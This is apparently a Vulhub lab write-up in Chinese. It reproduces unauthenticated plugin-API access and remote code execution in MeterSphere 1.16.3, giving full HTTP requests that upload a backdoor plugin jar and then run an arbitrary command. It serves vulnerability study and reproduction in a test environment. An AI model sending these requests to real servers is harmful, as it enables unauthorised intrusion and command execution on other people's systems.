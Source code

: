 # MeterSphere 插件接口未授权访问及远程代码执行

MeterSphere是基于GPLv3协议的一站式的开源持续测试平台。在其1.16.3版本及以前，插件相关管理功能未授权访问，导致攻击者可以通过上传插件的方式在服务器中执行任意代码。

参考连接：

- <https://xz.aliyun.com/t/10772>

## 漏洞环境

执行如下命令启动一个MeterSphere 1.16.3服务器：

```
docker compose up -d
```

MeterSphere初始化成功后，访问`http://your-ip:8081`即可跳转到默认登录页面。

## 漏洞复现

首先，我们访问`http://your-ip:8081/plugin/list`可见成功返回插件信息（虽然此时插件为空），说明`/plugin/*`接口存在未授权访问问题，可以利用。

利用漏洞前，需要准备一个恶意MeterSphere插件。Vulhub提供了一个已经编译好的[插件](https://github.com/vulhub/metersphere-plugin-Backdoor/releases/tag/v1.0.1)以供测试（**请勿在非授权环境下测试**）。

将恶意插件使用如下数据包上传：

```
POST /plugin/add HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJV2KX1EL5qmKWXsd
Content-Length: 11985

------WebKitFormBoundaryJV2KX1EL5qmKWXsd
Content-Disposition: form-data; name="file"; filename="metersphere-plugin-DebugSampler-1.0.1-jar-with-all-dependencies.jar"

[Paste your jar file]
------WebKitFormBoundaryJV2KX1EL5qmKWXsd--
```

![](2.png)

> **如果使用Burpsuite来复现漏洞，你需要注意数据包编码问题，否则可能将无法复现。**

如果上传成功，再次访问`http://your-ip:8081/plugin/list`将可以查看到新的插件：

![](3.png)

最后，即可发送如下数据包来执行任意命令：

```
POST /plugin/customMethod HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 89

{
  "entry": "io.metersphere.plugin.DebugSampler.UiScriptApiImpl",
  "request": "id"
}
```

![](4.png)
